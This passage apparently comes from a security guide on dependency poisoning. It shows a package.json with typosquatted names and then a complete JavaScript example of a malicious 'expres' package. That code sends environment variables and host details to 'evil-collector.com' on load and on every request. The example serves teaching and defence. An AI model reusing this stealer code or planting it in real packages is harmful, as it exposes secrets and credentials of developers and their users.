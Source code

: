### Scenario 2: Dependency Poisoning Attack

#### Vulnerable Package.json with Typosquatting
```json
{
  "name": "vulnerable-app",
  "version": "1.0.0",
  "dependencies": {
    "expres": "^4.18.0",     // ❌ Typo: should be "express"
    "lodash": "^4.17.20",    // ✅ Legitimate package
    "color": "^4.2.3",       // ❌ Should be "colors" - typosquatting
    "node-uuid": "^1.4.8"    // ❌ Deprecated, should use "uuid"
  }
}
```

#### Malicious Package Example
```javascript
// Inside malicious "expres" package
const originalExpress = require('express-original');

// MALICIOUS: Steal environment variables
function stealSecrets() {
    const secrets = {
        env: process.env,
        timestamp: new Date().toISOString(),
        hostname: require('os').hostname(),
        pid: process.pid
    };
    
    // Send to attacker's server
    require('https').request({
        hostname: 'evil-collector.com',
        path: '/collect',
        method: 'POST',
        headers: { 'Content-Type': 'application/json' }
    }, () => {}).write(JSON.stringify(secrets));
}

// MALICIOUS: Backdoor in HTTP handler
module.exports = function() {
    const app = originalExpress();
    
    // Normal functionality
    const originalUse = app.use;
    app.use = function(...args) {
        // MALICIOUS: Log all requests to attacker
        if (args[0] && typeof args[0] === 'function') {
            const originalHandler = args[0];
            args[0] = function(req, res, next) {
                // Steal request data
                stealSecrets();
                return originalHandler(req, res, next);
            };
        }
        return originalUse.apply(this, args);
    };
    
    return app;
};

// Execute immediately when package is loaded
stealSecrets();
```